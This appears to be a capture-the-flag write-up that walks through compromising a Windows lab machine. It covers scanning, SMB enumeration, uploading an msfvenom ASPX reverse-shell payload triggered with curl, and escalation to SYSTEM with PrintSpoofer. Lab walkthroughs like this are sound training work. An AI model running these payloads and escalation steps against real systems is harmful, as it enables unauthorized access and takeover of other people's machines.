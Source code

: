 # Relevant

## Scanning & Enumeration

```bash
nmap -p- -T4 -A IP
```

Output:

```bash
# Nmap 7.91 scan initiated Wed Nov 18 22:35:20 2020 as: nmap -p80,135,139,445,3389,48663,49666,49668 -A -T4 -oN nmap.txt relevant
Nmap scan report for relevant (10.10.140.237)
Host is up (0.12s latency).

PORT      STATE    SERVICE            VERSION
80/tcp    open     http               Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds       Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open     ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2020-11-18T22:36:45+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-11-18T22:37:25+00:00; 0s from scanner time.
48663/tcp filtered unknown
49666/tcp open     msrpc              Microsoft Windows RPC
49668/tcp open     msrpc              Microsoft Windows RPC

Running (JUST GUESSING): Microsoft Windows 2016|2012 (90%)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

#### Port 135/445 SMB

We first enumerate the SMB service with smbclient

```bash
smbclient -L 10.10.140.237
smbclient \\\\10.10.140.237\\nt4wrksv
```

We find a share named **nt4wrksv** and it contains a file **passwords.txt**

Using **psexec.py**

```bash
psexec.py bob:'!P@$$W0rD!123'@10.10.140.237
psexec.py bill:'Juw4nnaM4n420696969!$$$'@10.10.140.237
```

We figure out that while bob is a valid user (with prob wrong creds)
bill is not.
We cannot log in so we move on.

#### Port 80/49663

Doing a gobuster or both ports gives as an interesting finding

```bash
gobuster dir -u http://10.10.140.237 -w /usr/share/wordlists/dirbyster/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.140.237:49663 -w /usr/share/wordlists/dirbyster/directory-list-2.3-medium.txt
```

We find **/nt4wrksv** on port 49663

If we navigate throught the directory we can see the passwords.txt file
This means that we can access files from the web that have been uploaded in
the smb share

## Exploitation

We gathered enought info to start testing some payloads

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f aspx -o exploit.aspx
```

In the smb share now

```bash
put exploit.aspx
```

Do a curl command to trigger the payload

```bash
curl http://10.10.140.237/nt4wrksv/exploit.aspx
```

And boom we got a shell

## Post Exploitation

Searching throught the machine.
Uploading winPEAS.exe
Uploading pspy
Din't help me

Reading throught my notes. I decided to try looking the privileges of the
user

```bash
whoami /priv
```

Output:

```text
SeImpersonatePrivilege  Impersonate a client after authentication   Enabled
```

This is vulnerable!!!

## Privilege Escalation

Trying the Potato attack or incognito got me nowhere but not loosing hope
I found the **Printspoofer** exploit

Uploading and Running it, got me root

```bash
PrintSpoofer.exe -i -c cmd
```

```json
```
